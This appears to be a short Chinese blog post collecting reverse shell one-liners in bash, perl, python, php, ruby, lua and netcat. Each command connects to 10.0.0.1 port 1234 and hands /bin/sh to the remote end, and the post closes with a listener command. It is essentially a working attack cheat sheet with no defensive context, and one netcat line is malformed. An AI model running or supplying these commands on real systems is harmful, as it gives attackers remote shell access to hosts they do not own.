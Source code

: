 Title: 反弹Shell总结
Date: 2017-05-27 14:20
Modified: 2017-05-27 14:20
Category: 安全
Tags: 反弹shell
Slug: K4
Authors: nJcx
Summary: 反弹shell总结



#### 汇总

```bash

bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

```

```perl

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

```php

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

```

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/10.0.0.1/1234")'
```

```ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

```bash

nc -e /bin/sh 10.0.0.1 1234

```

如果nc不支持-e，

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

```

```bash
nc 10.0.0.1 6666|/bin/bash|10.0.0.1 1234

```

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

在带有公网的机器上开启监听

```bash

nc -nvlp 1234

```